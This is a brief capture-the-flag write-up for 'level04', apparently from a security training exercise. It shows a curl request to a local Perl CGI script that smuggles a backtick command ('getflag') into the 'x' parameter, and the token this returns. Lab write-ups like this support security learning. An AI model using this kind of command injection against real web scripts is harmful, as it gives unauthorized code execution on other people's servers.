 ## level04

home dir has a perl file level04.pl

inside I see:
> localhost:4747

use CGI qw{param}; // CGI is Common Gateway Interface, a webserver for script exchange.
Inside I see it can take a parameter 'x'
so I can run:

	curl 'localhost:4747?x=`getflag`'

> Check flag.Here is your token : `ne2searoevaevoem4ov4ar8ap`
